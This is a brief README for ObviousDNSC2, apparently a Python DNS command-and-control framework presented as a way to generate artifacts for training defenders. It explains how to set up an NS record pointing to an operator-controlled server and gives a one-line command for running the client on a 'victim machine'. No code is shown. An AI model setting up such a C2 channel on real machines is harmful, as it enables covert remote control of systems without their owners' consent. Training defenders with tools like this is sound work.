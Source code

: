 # ObviousDNSC2
Simple DNS C2 with Python client and server

## Purpose
A plain-as-possible DNS C2 framework with both client and server written in Python. This is designed as an artifact generation tool for training defenders.

## Setup
Configure a DNS record (like, with a legit registrar) with an NS record that points to a public asset you control. Example:
`odc2.SomeDomainIOwn.com`, pointing to `myVPC.SomeDomainIOwn.com`.

On that VPC, install and run the server.

On the victim machine, run `odc2client.py -d odc2.SomeDomainIOwn.com`
